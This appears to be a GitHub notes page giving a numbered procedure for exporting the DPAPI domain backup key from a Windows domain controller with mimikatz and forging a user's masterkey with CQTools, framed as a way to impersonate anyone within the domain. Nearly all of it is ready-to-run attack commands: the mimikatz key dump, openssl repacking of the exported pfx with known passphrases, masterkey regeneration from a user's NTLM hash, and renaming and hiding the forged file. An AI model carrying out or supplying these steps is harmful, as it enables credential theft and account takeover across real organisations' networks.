 ## Exporting DPAPI Domain Backup Key with mimikatz, and explaining how to recreate a user's masterkey (AKA Impersonate ANYONE within the domain)

### Tools: Mimikatz, CQTools https://github.com/BlackDiverX/cqtools

### Requirements: System level access on the host

### Steps:

#### 1) mimikatz.exe 

#### 2) lsadump::backupkeys /system:localhost /export (Dump the DPAPI Domain Backup Key from DC)

#### 3) Transfer the .pfx container, as well as some of the CQtools (CQDPAPIBlobSearcher.exe and CQMasterKeyAD.exe to target machine of your choice)

#### 4) CQDPAPIBlobSearcher.exe /d c:\users\USER\AppData\Roaming /r /o c:users\USER\Desktop\blob (Finds the Masterkey, which shown as mkguid on results)

#### 5) Attacking machine: openssl pkcs12 -in DMK.pfx -out temp.pem -nodes (Password is mimikatz because it was extracted with mimikatz from DC)

#### 6) Attacking machine: openssl pkcs12 -export -out DMK.pfx -in temp.pem (Use cqure as passphrase. We repacked the pfx using "cqure" as passphrase to make the cqtool work or else it will fail)

#### 7) CQMasterKeyAD.exe /file "c:\users\USER\appdata\roaming\microsoft\protect\USER_SID\MASTERKEY" /pfx DMK.pfx /newhash NTLM_HASH_OF_USER

#### 8) ren OLD_MASTERKEY_FILE WHATEVER

#### 9) ren NEW_MASTERKEY_FILE OLD_MASTERKEY_FILE

#### 10) attrib "c:\users\USER\appdata\roaming\microsoft\protect\USER_SID\MASTERKEY" +S +H (Shuffle the old and new masterkey files, then give the same attributes to the newly created masterkey file as the old one)

#### 11) VOILA!
